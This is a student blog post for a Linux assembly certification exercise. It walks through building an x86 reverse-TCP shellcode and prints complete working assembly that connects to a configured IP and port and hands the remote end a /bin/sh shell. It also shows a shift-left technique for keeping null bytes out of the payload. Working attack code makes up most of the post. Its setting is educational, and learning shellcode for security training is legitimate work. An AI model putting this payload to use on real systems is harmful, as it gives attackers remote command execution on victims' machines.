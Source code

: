 ```yaml
---
title: SLAE Exercise 2
tags: SLAE
key: 20190611
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:
<http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html>

Student ID: SLAE - 1470

All code can be found in: <https://github.com/xMilkPowderx/SLAE-Code>

### Assignment Two:

1. Create a Shell_Reverse_TCP shellcode
    - Reverse connects to conﬁgured IP and Port
    - Execs Shell on successful connection
2. IP and Port number should be easily configurable

In our [bind shell poc](https://xmilkpowderx.github.io/2019-06-09-SLAEEX1/), we learn that to execute a bind shell, we need 6 system call in total.

```c
socket() > bind() > listen() > accept() > dup2() > execve()
```

However, for a reverse shell, things are much simpler. All we need is to create a socket and connect it to a remote host, then redirect all file descriptor so that we can transfer our input /bin/sh. To do this, we need 

```c
socket() > connect() > dup2() > execve()
```

It's this quite similar to our bind shell, the syntax for connect() is basically bind(), while the rest of them is the same. As such, we can just modify our bind shell poc.
```asm
global _start

section .text

_start:
;First, we will need to create a socket		
;
;  socketcall(int call, socket(int domain, int type, int protocol)
;  eax:		ebx:    			ecx:
;  0x66		call = 0x1 (SYS_SOCKET)		*args = {domain = 0x2 (AF_INET), type = 0x1 (SOCK_STREAM), protocol = 0x0 (Single Protocol)}
;	
	xor ebx,ebx	; init register
	mul ebx		; this actually seems to set both eax and edx to 0
	push ebx	; 0x0 for protocol
	inc ebx		
	push ebx	; 0x1 for SOCK_STREAM
	push byte +0x2	; 0x2 for AF_INET
	mov ecx,esp	; ecx points to addr of current stack
	mov al,0x66	; 0x66 systemcall for socketcall
	int 0x80

	mov esi, eax	; We need to backup our eax because unlike our bind shell, we cannot get it from eax after connect

;Then we will need to set up connect() to connect to remote host
;
;  socketcall(int call, connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen))
;  eax:		ebx:				ecx:
;  0x66		call = 0x3 (SYS_CONNECT)	*args = {sockfd = socketid = eax, sockaddr = [0x2 (AF_INET), port = 115C (4444), address = 192.168.170.128], addrlen = 0x10}
;
	xor ebx,ebx
	mov bl, 0x3	; 0x3 for SYS_CONNECT
	push dword 0x80AAA8C0	; Our ip address 192.168.170.128
	push word 0x5c11; 115c is 4444 in hexadecimal form
	push word 0x02
	mov ecx,esp	; Store the address of sockaddr to ecx
	push byte 0x10
	push ecx	; push the address that store value of sockaddr to stack
	push esi	; eax was set to the value of socketid after the socket call 
	mov ecx,esp	; ecx points to addr of current stack
	push byte 0x66  ; 0x66 systemcall for socketcall
	pop eax
	int 0x80

;Now, its time for us to redirect all file descriptor we need so that our input and output to the shell 
;will be handled by stdin(0), stdout(1) and stderr(2)
;
;  dup2(int oldfd, int newfd, int flags)
;  eax:		ebx:			ecx:
;  0x3f		oldfd = socketid	newfd = stdin(0), stdout(1) and stderr(2)
;
	xchg esi,ebx
	xor ecx,ecx
	mov cl, 0x2
loop:				; Since we got three fd, we will use loop 3 times
	mov al, 0x3f		; 0x3f systemcall for dup2
	int 0x80
	dec ecx			; 2 > 1 > 0
	jns loop

;At last, the final part, this one is rather easy as we only need to call /bin/sh with execve()
;
;  execve(const char *filename, char *const argv[],char *const envp[])
;  eax:		ebx:			ecx:			edx:
;  0xb		*filename = /bin//sh	address of /bin//sh	0x0
;
	push edx		; seems that edx will be 0x0 at this point, we can use it as a line break
	push dword 0x68732f2f
	push dword 0x6e69622f	; /bin//sh
	mov ebx,esp
	push eax		; eax was set to 0x0 after dup2 and we can use it directly
	push ebx		
	mov ecx,esp
	mov al,0xb		; 0xb systemcall for execve
	int 0x80
``` 
It seems that unlike our bind shell, the stack is not properly aligned, which we cannot just push our /bin//sh into the stack. Luckily, edx is 0x0 and we can just use it to terminate our string.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex2-1.JPG"/>

This poc is working very well, however, what if our ip address contains 0? We don't want our shellcode contains bad characters, right? As such, we will need to modify some of our logic inside connect()

There are quite a few way to achieve our goal and while I am researching, I come up to this solution that use SHL (Shift Left) to do so. It may not be that best way to do it yet learning a few more technique doesn't harm and I will be sticking to this way.

In order to use SHL to control the value, we will modify our code of pushing the address to stack to something like this.
```asm
	; We will be using edx, it is 0x0 at this point
	mov dl,0x80
	SHL EDX,0x8	;move edx to left by one byte
	mov dl,0xAA
	SHL EDX,0x8	;move edx to left by one byte
	mov dl,0xA8
	SHL EDX,0x8	;move edx to left by one byte
	mov dl,0xC0
	push edx
```
What SHL/SHR can do is that it will shift the value inside our register left or right in bit level, the remaining part will become 0. As such, we can shift value by 8 bits one at a time and eventually, pushing the first byte we move to the upper bit of the register. Below is the debug information from gdb.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex2-2.JPG"/>

We can see that 0x80 is first being moved to dl. After we shift it to left by one byte, it become 0x8000. Imagine we got a 00 in address at this point, we can just shift to left again and the value will become 0x800000. Then we will continue moving value to dl. At last, we just need to push edx to the stack. 

### Reverse Shell Proof of Concept:
```asm
;Filename: reverseShell.nasm
;Author: Jonathan So
;Student ID: SLAE-1470
;SLAE-Exercise 1

global _start

section .text

_start:
;First, we will need to create a socket		
;
;  socketcall(int call, socket(int domain, int type, int protocol)
;  eax:		ebx:    			ecx:
;  0x66		call = 0x1 (SYS_SOCKET)		*args = {domain = 0x2 (AF_INET), type = 0x1 (SOCK_STREAM), protocol = 0x0 (Single Protocol)}
;	
	xor ebx,ebx	; init register
	mul ebx		; this actually seems to set both eax and edx to 0
	push ebx	; 0x0 for protocol
	inc ebx		
	push ebx	; 0x1 for SOCK_STREAM
	push byte +0x2	; 0x2 for AF_INET
	mov ecx,esp	; ecx points to addr of current stack
	mov al,0x66	; 0x66 systemcall for socketcall
	int 0x80

	mov esi, eax	; We need to backup our eax because unlike our bind shell, we cannot get it from eax after connect

;Then we will need to set up connect() to connect to remote host
;
;  socketcall(int call, connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen))
;  eax:		ebx:				ecx:
;  0x66		call = 0x3 (SYS_CONNECT)	*args = {sockfd = socketid = eax, sockaddr = [0x2 (AF_INET), port = 115C (4444), address = 192.168.170.128], addrlen = 0x10}
;
	xor ebx,ebx
	mov bl, 0x3	; 0x3 for SYS_CONNECT
	;push dword 0x80AAA8C0	; Our ip address 192.168.170.128
	; We will be using edx, it is 0x0 at this point
	mov dl,0x80
	SHL EDX,0x8	;move edx to left by one byte
	mov dl,0xAA
	SHL EDX,0x8	;move edx to left by one byte
	mov dl,0xA8
	SHL EDX,0x8	;move edx to left by one byte
	mov dl,0xC0
	push edx
	push word 0x5c11; 115c is 4444 in hexadecimal form
	push word 0x02
	mov ecx,esp	; Store the address of sockaddr to ecx
	push byte 0x10
	push ecx	; push the address that store value of sockaddr to stack
	push esi	; eax was set to the value of socketid after the socket call 
	mov ecx,esp	; ecx points to addr of current stack
	push byte 0x66  ; 0x66 systemcall for socketcall
	pop eax
	int 0x80

;Now, its time for us to redirect all file descriptor we need so that our input and output to the shell 
;will be handled by stdin(0), stdout(1) and stderr(2)
;
;  dup2(int oldfd, int newfd, int flags)
;  eax:		ebx:			ecx:
;  0x3f		oldfd = socketid	newfd = stdin(0), stdout(1) and stderr(2)
;
	xchg esi,ebx
	xor ecx,ecx
	mov cl, 0x2
loop:				; Since we got three fd, we will use loop 3 times
	mov al, 0x3f		; 0x3f systemcall for dup2
	int 0x80
	dec ecx			; 2 > 1 > 0
	jns loop

;At last, the final part, this one is rather easy as we only need to call /bin/sh with execve()
;
;  execve(const char *filename, char *const argv[],char *const envp[])
;  eax:		ebx:			ecx:			edx:
;  0xb		*filename = /bin//sh	address of /bin//sh	0x0
;
	xor edx,edx
	push edx		; set the end of /bin//sh to 0x0
	push dword 0x68732f2f
	push dword 0x6e69622f	; /bin//sh
	mov ebx,esp
	push eax		; eax was set to 0x0 after dup2 and we can use it directly
	push ebx		
	mov ecx,esp
	mov al,0xb		; 0xb systemcall for execve
	int 0x80
```